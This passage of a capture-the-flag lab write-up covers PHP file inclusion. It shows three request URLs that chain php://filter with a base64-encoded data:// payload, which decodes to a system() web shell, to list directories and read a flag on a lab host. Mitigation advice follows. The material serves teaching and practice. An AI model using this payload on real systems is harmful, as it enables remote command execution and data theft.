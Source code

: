 ### Practical
---

Let's use this payload to receive the contents of the current directory:

```
http://10.10.172.219/playground.php?page=php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=ls
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250506162110.png)

We got a flags directory, we can see the contents of it using:

```
http://10.10.172.219/playground.php?page=php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=ls%20-la%20flags
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250506162437.png)

We can see the file, let's read it:

```
http://10.10.172.219/playground.php?page=php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=cat%20flags%2Fcd3c67e5079de2700af6cea0a405f9cc.txt
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250506162524.png)

There we go, we got our flag:

```
THM{fl4g_cd3c67e5079de2700af6cea0a405f9cc} 
```

# Conclusion
---

File Inclusion and Path Traversal vulnerabilities arise from improper handling of user-supplied input in web applications. In File Inclusion, attackers exploit the way web applications handle files, leading to Local File Inclusion or Remote File Inclusion. On the other hand, Path Traversal involves navigating the server's directory structure to access files outside the intended directory. Both vulnerabilities can be used to access unauthorized data or system compromise.

#### Mitigation and Prevention Strategies

1. Ensure all user inputs are properly validated and sanitized. This is a crucial step to prevent attackers from manipulating file paths or including malicious files.
2. Implement allowlisting for file inclusion and access. Define which files can be included or accessed and reject any request that does not match these criteria.
3. Configure server settings to disallow remote file inclusion and limit the ability of scripts to access the filesystem. For PHP, directives like `allow_url_fopen` and `allow_url_include` should be disabled if not needed.
4. Performing regular code reviews and security audits to identify potential vulnerabilities with the help of automated tools. Manual checks are also essential.
5. Ensure that everyone involved in the development process understands the importance of security. Regular training on secure coding practices can significantly reduce the risk of this vulnerability.
